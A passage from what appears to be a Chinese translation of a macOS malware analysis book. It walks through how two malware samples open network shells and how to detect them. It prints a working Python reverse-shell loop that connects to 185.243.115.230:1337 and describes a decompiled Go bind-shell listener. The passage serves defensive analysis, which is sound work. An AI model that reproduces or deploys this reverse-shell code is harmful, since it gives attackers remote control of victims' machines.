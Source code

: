 ```
#!/bin/bash
while :
do
    python -c
        'import socket,subprocess,os;
        s = socket.socket(socket.AF_INET,socket.SOCK_STREAM);
        s.connect(("185.243.115.230",1337));
        os.dup2(s.fileno(),0);
        os.dup2(s.fileno(),1);
        os.dup2(s.fileno(),2);
        p=subprocess.call(["/bin/sh","-i"]);'
    sleep 5
done 
```

这段代码连接到攻击者的服务器，位于 185.243.115.230，端口为 1337。然后，它将标准输入（stdin）、标准输出（stdout）和标准错误输出（stderr）流（文件描述符分别为 0、1 和 2）复制到已连接的套接字。最后，它执行*/bin/sh*并加上-i 标志，以完成交互式反向 shell 的设置。如果你在感染主机上枚举网络连接（例如，使用 macOS 的 lsof 工具，列出所有进程的开放文件描述符），你将看到一个属于这个基于 Python 的 shell 的连接：

```
% **lsof -nP | grep 1337 | grep -i python**
Python   ...   TCP   192.168.1.245:63353->185.243.115.230:1337 (ESTABLISHED) 
```

我们的第二个例子与一个涉嫌的中国黑客团体有关，该团体以其 Alchimist [*sic*]攻击框架而闻名。^(1) 当执行时，恶意代码会丢下一个名为*payload.so*的动态库。如果我们在反编译器中打开这个库（最初是用 Go 语言编写的），我们可以看到它包含将 shell 绑定到监听套接字的逻辑：

```
os.Getenv(..., NOTTY_PORT, 0xa,...);
strconv.ParseInt(...);
fmt.Sprintf(..., 0.0.0.0,..., port,...);
net.Listen("tcp", address);
main.handle_connection(...); 
```

它首先读取一个自定义环境变量（NOTTY_PORT），以构建一个格式为*0.0.0.0:port*的网络地址字符串。如果没有指定端口，它会默认为 4444。接下来，它调用 Go *net*库中的 Listen 方法来创建一个监听 TCP 套接字。一个名为 handle_connection 的方法处理任何与此套接字的连接。使用我的网络枚举工具 Netiquette（图 4-1），你可以看到恶意软件的监听套接字。^(2)

![](img/Figure4-1.jpg)
